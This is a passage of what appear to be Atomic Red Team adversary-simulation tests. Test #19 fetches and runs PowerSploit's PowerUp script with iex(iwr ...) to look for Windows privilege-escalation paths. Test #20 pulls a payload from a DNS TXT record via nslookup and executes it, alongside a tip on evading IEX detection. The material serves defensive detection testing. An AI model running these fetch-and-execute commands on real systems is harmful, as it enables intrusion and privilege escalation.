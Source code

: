 



<br/>
<br/>

## Atomic Test #19 - PowerUp Invoke-AllChecks
Check for privilege escalation paths using PowerUp from PowerShellMafia

**Supported Platforms:** Windows


**auto_generated_guid:** 1289f78d-22d2-4590-ac76-166737e1811b






#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
iex(iwr https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/d943001a7defb5e0d1657085a77a0e78609be58f/Privesc/PowerUp.ps1 -UseBasicParsing)
Invoke-AllChecks
```






<br/>
<br/>

## Atomic Test #20 - Abuse Nslookup with DNS Records
Red teamer's avoid IEX and Invoke-WebRequest in your PowerShell commands. Instead, host a text record with a payload to compromise hosts.
[reference](https://twitter.com/jstrosch/status/1237382986557001729)

**Supported Platforms:** Windows


**auto_generated_guid:** 999bff6d-dc15-44c9-9f5c-e1051bfc86e1






#### Attack Commands: Run with `powershell`! 


```powershell
# creating a custom nslookup function that will indeed call nslookup but forces the result to be "whoami"
# this would not be part of a real attack but helpful for this simulation
function nslookup  { &"$env:windir\system32\nslookup.exe" @args | Out-Null; @("","whoami")}
powershell .(nslookup -q=txt example.com 8.8.8.8)[-1]
```

